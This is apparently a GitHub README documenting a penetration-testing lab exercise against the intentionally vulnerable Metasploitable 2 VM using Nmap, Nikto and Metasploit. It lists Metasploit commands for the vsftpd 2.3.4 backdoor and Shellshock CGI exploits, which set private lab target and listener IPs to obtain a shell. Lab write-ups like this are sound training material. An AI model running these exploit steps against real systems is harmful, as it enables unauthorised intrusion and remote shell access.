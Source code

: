 # Metasploitable 2 - VAPT Project

This repository documents a full Vulnerability Assessment and Penetration Testing (VAPT) process carried out against the intentionally vulnerable **Metasploitable 2** virtual machine.

## 🎯 Objective

To identify and exploit real-world vulnerabilities using professional penetration testing methodologies and tools such as **Nikto** and **Metasploit**, culminating in shell access and privilege escalation.

---

## 🛠️ Tools Used

- **Kali Linux (Attacker Machine)**
- Nmap (for port scanning and service version detection)
- **Nikto** – Web server vulnerability scanner
- **Metasploit Framework** – Exploitation and payload management

---

## 🎯 Objectives

- Identify vulnerable services
- Exploit known CVEs (Apache, FTP)
- Obtain shell access
- Attempt privilege escalation

## 📝 Key Metasploit Commands

- use exploit/unix/ftp/vsftpd_234_backdoor
- set RHOSTS 192.168.56.102
- run
- use exploit/multi/http/apache_mod_cgi_bash_env_exec
- set RHOSTS 192.168.56.102
- set TARGETURI /cgi-bin/test.cgi
- set LHOST 192.168.56.101
- run
- sessions -i 1
- whoami
- id



## 📷 Screenshots

| Screenshot | Description |
|------------|-------------|
| `nikto_results.png` | Vulnerabilities detected by Nikto |
| `metasploit_shell_access.png` | Gaining shell using Apache exploit |
| `meterpreter_session.png` | Meterpreter session opened |
| `privilege_escalation_attempt.png` | Attempt to escalate from www-data to root |

---

## 📄 Report

PDF write-up coming soon...

---

## ⚠️ Disclaimer

> This project was performed in a **legal, controlled lab environment** using Metasploitable 2 for educational purposes only.  
> Do not attempt these techniques on any system without **explicit permission**.

---
